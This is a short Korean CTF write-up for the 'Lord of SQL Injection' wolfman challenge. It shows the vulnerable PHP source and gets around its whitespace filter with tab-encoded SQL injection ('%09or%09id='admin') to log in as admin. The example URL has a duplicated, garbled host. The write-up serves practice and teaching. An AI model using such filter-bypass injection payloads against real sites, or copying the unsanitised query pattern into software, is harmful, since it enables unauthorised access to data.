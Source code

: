 # **LOS wolfman**

## <img src="./img/key.png" width="25"> **Keys**
>php source
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```
`if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");` 에서 `space` 를 검사한다. 따라서 `space`대신 `Tab`을 이용해 `Tab`의 hex 값인 `%09` 를 이용하여 쿼리를 보내면 된다.

## <img src="./img/road.png" width="25"> **Query**
>Query
```php
select id from prob_wolfman where id='guest' and pw='1'	or	id='admin'
```

>Input value
```
http://los.eagle-jump.http://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=1%27%09or%09id=%27admin
```
`%09` 은 `Tab` 이고, `%27` 은 `'` 이다.

## <img src="./img/attack.png" width="25"> **Attack**
<img src="./img/wolfman1.png" width="700">